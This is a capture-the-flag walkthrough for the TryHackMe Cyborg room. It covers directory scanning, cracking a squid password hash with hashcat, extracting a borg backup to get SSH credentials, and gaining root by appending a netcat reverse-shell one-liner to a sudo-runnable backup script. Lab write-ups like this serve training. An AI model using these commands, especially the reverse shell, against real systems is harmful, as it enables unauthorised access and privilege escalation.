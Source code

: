 # Cybrog CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Cybrog** CTF challenge on [TryHackMe](https://tryhackme.com/room/cyborgt8). 
---

scanning and looking for hidden folders

![scan](imgs/scan.png "scan")

found `/admin`, `/etc/squid`

found paswd file in `/etc/squid`

![hash](imgs/hash.png "hash")

found conf file in /etc/squid

![conf](imgs/conf.png "conf")

cracked the hash with hashcat

```
hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
![hashcat](imgs/hashcat.png "hashcat")

downloaded archive from website 

its using borg

![borgbackupinfo](imgs/borgbackupinfo.png "borgbackupinfo")

![borgconfig](imgs/borgconfig.png "borgconfig")

we need passphrase for the archive, the previous one does the work

![borglist](imgs/borglist.png "borglist")


```
borg extract home/field/dev/final_archive/::music_archive
```

after extracting:

![borgusers](imgs/borgusers.png "borgusers")


extracted borg backup and found `note.txt` in `/home/alex/Documents`

![note](imgs/note.png "note")

now we probably have ssh credentials

we got user flag

![user](imgs/user.png "user")

found interesting things with sudo -l

![sudol](imgs/sudol.png "sudol")

content of the backup.sh file:

![backup](imgs/backup.png "backup")

i added write permission to our file `chmod +w`

then put reverse shell into our script

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.91.59 4445 >/tmp/f" >> backup.sh
```

![rev](imgs/rev.png "rev")

and we got root access and root flag

![root](imgs/root.png "root")

## MACHINE PWNED
